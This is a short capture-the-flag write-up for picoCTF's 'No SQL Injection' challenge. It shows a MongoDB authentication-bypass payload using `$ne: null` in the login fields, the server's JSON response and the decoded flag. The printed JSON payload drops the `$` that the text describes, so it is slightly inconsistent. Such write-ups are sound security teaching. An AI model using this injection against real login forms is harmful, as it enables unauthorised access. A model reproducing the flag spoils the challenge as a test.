 ## No SQL Injection

[Link to challenge](https://play.picoctf.org/practice/challenge/443)

Write-up:

1. Analyzing the source code given, we see the server is using MongoDB. Since it parses the login form (email and password) as JSON, we can craft a payload for those fields:
   **{ $ne: null }** - $ne meaning "not equal". Since no valid user has null email nor password, every user will match this, and provide us with admin access, as well as a successful request.
   `{`
	   `"email":"{\"ne\": null}",`
	   `"password":"{\"ne\": null}"`
	`}`

2. Analyzing the response with Caido, we see that the token is encoded:
   `{`
    `"success": true,`
    `"email": "picoplayer355@picoctf.org",`
    `"token": "cGljb0NURntqQmhEMnk3WG9OelB2XzFZeFM5RXc1cUwwdUk2cGFzcWxfaW5qZWN0aW9uXzc4NGU0MGU4fQ==",`
    `"firstName": "pico",`
    `"lastName": "player"`
	`}`

3. The 2 equal signs at the end suggest base64 encoding. Decoding with CyberChef returns the flag: ***picoCTF{jBhD2y7XoNzPv_1YxS9Ew5qL0uI6pasql_injection_784e40e8}***